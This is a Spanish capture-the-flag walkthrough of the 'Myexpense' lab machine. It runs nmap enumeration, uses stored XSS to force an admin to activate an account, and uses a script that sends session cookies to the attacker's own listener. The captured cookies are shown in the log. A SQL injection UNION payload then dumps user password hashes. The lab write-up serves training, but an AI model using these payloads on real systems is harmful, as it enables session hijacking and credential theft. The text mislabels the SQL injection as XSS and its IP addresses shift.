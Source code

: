 

# Historia

La máquina "Myexpense" nos pone en la situación de que somos "Samuel Lamotte" y acabamos de ser despedido de la empresa "Furtura Business Informatique". Lamentablemente, debido a su precipitada marcha, no ha tenido tiempo de validar el informe de gastos de su último viaje de negocios, que aún asciende a 750 € correspondientes a un vuelo de ida y vuelta a su último cliente.

# Enumeración

Empezamos detectando en que IP está la máquina que nos hemos descargado

```bash
fping -a -g 192.168.1.0/24 2>/dev/null
```

Y en mi caso está en la IP 192.168.1.80 

Ahora ya podemos escanear con nmap

```nmap
nmap -sCV -T4 192.168.1.80 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 16:12 CEST
Nmap scan report for 192.168.1.79
Host is up (0.00026s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
| http-robots.txt: 1 disallowed entry 
|_/admin/admin.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds
```

Gracias a la enumeración de nmap podemos ver que existe /admin/admin.php

![[1a.png]]

Si le damos al boton de "Inactive" para cambiarlo a "Active" pero no podemos porque lo tiene que hacer un administrador

![[2a.png]]

Probamos a iniciar sesión pero la cuenta de "slamotte" esta inactiva, asi que tendremos que crear una cuenta nueva. Dentro de la pagina para crear una cuenta nueva podemos probar a realizar un XSS. Lo que vamos a hacer es crear un XSS donde llame a la petición "192.168.1.80/admin/admin.php?id=11&status=active"

El codigo javascript que usaremos será el siguiente:

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.79/admin/admin.php?id=11&status=active');
request.send();
```

Ponemos el siguiente XSS en el lugar de "Firstname" y "Lastname"

```javascript
<script src="http://192.168.1.76/eskere.js"></script>
```

Abrimos un servidor http

```python
python3 -m http.server 80
```

Para poder mandarlo tendremos que borrar la etiqueta "disabled=""".
![[3a.png]]

Después de un rato podremos ver lo siguiente

```python
python3 -m http.server 80        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.80 - - [30/Jul/2023 17:42:13] "GET /eskere.js HTTP/1.1" 200 -
```

Y podremos acceder a la cuenta de Samuel y podremos mandar la solicitud del dinero

![[4a.png]]

Lo mandamos y mirando la página web podemos encontrar en nuestro perfil que nuestro manager es "Manon Riviere". Para ello tendremos que modificar el script que teníamos antes pero en vez de mandar una petición, tendremos que capturar la cookie del usuario de "Manon Riviere"

(Cambiamos el puerto para que no cause problemas con el anterior script que habíamos creado)

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.79:4444/?cookie=' + document.cookie);
request.send();
```

```python
python3 -m http.server 4444

Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /?cookie=PHPSESSID=01mm6p8v9vrrqar6omtmf9qoc2 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:17] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:17] "GET /?cookie=PHPSESSID=f8ssrjl36iljv0d3ijkvrj4hu2 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /?cookie=PHPSESSID=lais5ikdk3o7s4rju48lj729l5 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /?cookie=PHPSESSID=lais5ikdk3o7s4rju48lj729l5 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /?cookie=PHPSESSID=950elpe0sss3vrjuc9ijntt8a7 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /?cookie=PHPSESSID=950elpe0sss3vrjuc9ijntt8a7 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /?cookie=PHPSESSID=s9ldcc3i4nh0vjlihhl87f4e81 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /?cookie=PHPSESSID=s9ldcc3i4nh0vjlihhl87f4e81 HTTP/1.1" 200 -
```

Probamos cada una de las cookies hasta que nos podamos cambiar de usuario ha "Manon Riviere"

![[6a.png]]

Entramos en la pestaña "Expense reports" y permitimos el pago. Como paso final tenemos que llegar a ser "Paul Bauduoin" que es un "Financial approver". En la pestaña de "Rennes" podemos ver que si añadimos una ' en la url podemos ver que aparece el siguiente error.

![[7a.png]]

Asi que utilizando XSS otra vez pero en la url podremos sacar las contraseñas de los usuarios de la base de datos con la siguiente sintasis.

```sql
http://192.168.1.81/site.php?id=2 union select 1, group_concat(username,0x3a, password) from user-- -
```

copiamos todo el contenido en un bloc de notas y quedaría así

```
afoulon:124922b5d61dd31177ec83719ef8110a
pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
deviltrigger:3f2c8111d6a0cfd65cf04dcf466014ca
```

Continuamos desencriptando la contraseña de "pbaudouin" que está en md5. Iniciamos sesión con su usuario y contraseña y finalmente podremos validar el pago. Una vez validado podemos volver a la cuenta de "slamotte" conseguiremos la flag de la máquina.

![[8a.png]]
